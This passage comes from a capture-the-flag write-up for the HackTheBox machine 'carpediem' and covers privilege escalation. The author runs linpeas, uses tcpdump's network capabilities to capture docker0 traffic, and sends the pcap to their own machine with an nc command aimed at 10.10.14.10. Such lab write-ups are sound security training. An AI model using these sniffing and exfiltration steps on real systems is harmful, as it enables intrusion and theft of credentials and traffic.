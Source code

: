 
-----------------
# ROOT
### Step 1
Enumerating manually the information we find is pretty slim so instead fire up `linpeas.sh` right away. 

Going through the output we have two lines shining in red/yellow indicating a 95% PE vector
```bash
hflaccus@carpediem:/tmp$ ./linpeas.sh

════════════════════════════════════╣ Processes, Cron, Services, Timers & Sockets ╠════════════════════════════════════
╔══════════╣ Cleaned processes
[i] Looks like ps is not finding processes, going to read from /proc/ and not going to monitor 1min of processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
                 1578848   sed-Es,jdwp|tmux |screen |--inspect|--remote-debugging-port,&,g

╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Files with capabilities (limited to 50):
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip

╔══════════╣ Can I sniff with tcpdump?
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sniffing
You can sniff with tcpdump!

══╣ Possible private SSH keys were found!
/etc/ssl/certs/backdrop.carpediem.htb.key
```

There's a section on [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_net_admin-+-cap_net_raw) explaining the capabilities combination of cep_net_admin + cap_net_raw - tldr we can dump traffic from network interfaces.
I'm not sure what we're looking for, or what interface to dump, but since there are a lot of dockers and we know that there is a FTP + several http services, we might find something sensitive there.

NOTE: I left this pcap on for about 1 hour while leaving for a meeting, so there's a lot of traffic in my .pcap.
```bash
➜  carpediem nc -lp 1234 > docker0.pcap

hflaccus@carpediem:/tmp$ tcpdump -i docker0 -s 65535 -w docker0.pcap
tcpdump: listening on docker0, link-type EN10MB (Ethernet), capture size 65535 bytes
7171 packets captured
7171 packets received by filter
0 packets dropped by kernel

hflaccus@carpediem:/tmp$ nc -w3 10.10.14.10 1234 < docker0.pcap
```
